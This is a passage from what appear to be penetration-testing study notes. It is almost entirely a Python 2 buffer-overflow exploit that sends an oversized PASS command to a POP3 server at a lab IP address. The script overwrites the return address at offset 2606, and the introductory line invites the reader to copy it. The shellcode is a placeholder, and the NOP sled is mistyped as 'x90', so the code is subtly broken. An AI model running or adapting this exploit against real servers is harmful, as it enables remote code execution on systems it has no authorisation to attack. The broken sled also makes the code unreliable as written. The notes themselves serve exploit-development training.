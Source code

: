 Copy and put it into exploit

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

shellcode = ("GENERATED SHELL CODE")

buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "x90" * 16 + shellcode + "C" * (3500-2606-4-351-16) # 351 bytes are the size of the payload
# Need to add some NOPs

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

## Linux BoF Example
